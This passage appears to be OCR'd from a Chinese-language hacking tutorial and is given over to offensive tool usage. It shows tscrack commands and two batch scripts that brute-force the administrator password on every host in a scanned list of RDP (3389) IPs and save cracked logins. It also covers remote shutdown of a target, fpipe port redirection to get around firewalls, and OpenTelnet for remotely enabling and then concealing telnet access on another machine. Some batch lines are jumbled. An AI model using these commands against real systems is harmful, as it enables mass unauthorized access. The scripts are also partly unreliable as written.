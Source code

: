 　　-w 使用－w后面的密码字典

　　-p 使用－p后面的密码

　　-D 登录主页面

　　用法示例

　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码

　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户

　　@if not exist ipcscan.txt goto noscan

　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i

　　nscan

　　@echo 3389.txt no find or scan faild

　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)

　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat

　　@if not exist tscrack.exe goto noscan

　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt

　　:noscan

　　@echo tscrack.exe no find or scan faild

　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。

　　其它

　　Shutdown.exe

　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

　　OpenTelnet.exe (远程开启telnet工具)

　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。

　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。

　　ResumeTelnet.exe (OpenTelnet附带的另一个工具)

　　resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。

　　FTP命令详解

　　FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
